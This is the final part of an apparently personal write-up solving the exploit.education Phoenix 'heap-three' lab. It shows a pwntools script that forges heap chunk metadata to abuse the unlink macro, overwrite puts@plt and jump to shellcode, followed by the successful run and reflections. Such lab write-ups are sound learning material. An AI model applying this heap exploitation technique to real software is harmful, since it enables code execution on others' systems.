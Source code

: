 ```python
import struct
import pwnlib

shellcode = "push 0x080487d5; ret" # call winner
shellcode = pwnlib.asm.asm(shellcode)

# First argument
payload = ""
payload = payload + "\x90" * 16 + shellcode # buffer a with shellcode and NOP sled

# Second argument
payload = payload + " " +  "B" * 32  # buffer b 

# overwriting into chunk c
payload = payload + struct.pack("<I", 0xfffffffc) # prev_size, -4 so we can control prev->bk and prev->fd
payload = payload + struct.pack("<I", 0xffffffb0) # size, -80 to point to chunk a 

# Third argument 
payload = payload + " " + "\xff\xff\xff\xff" # 4 bytes of chunk, since prev_size is -4
payload = payload + struct.pack("<I", 0x804c13c - 12) # TARGET, puts@plt 
payload = payload + struct.pack("<I", 0xf7e69000 + 16 + 8) # WORD TO WRITE, address of shellcode / buffer a

print(payload)
```

```
root@phoenix-amd64:/opt/phoenix/i486# ./heap-three $(python heap3.py)
Level was successfully completed at @ 1556717659 seconds past the Epoch
```

**Game over!**

## Final words

For me personally, this was by far the hardest challenge on exploit.education, yet. It took me a lot of time to understand this type of attack
and to implement it myself. So don't be discouraged if you don't understand what's going on right away. Once you do, this
is a pretty eye opening exercise since we now advanced from simply overwriting some values in memory to carefully manipulating
the control flow of a program in order to execute our own code. I highly recommend reading the Phrack papers linked below that originally
discussed exploiting the `unlink` macro.

TODO
- draw new picture

## Additional links

[how2heap](https://github.com/shellphish/how2heap)
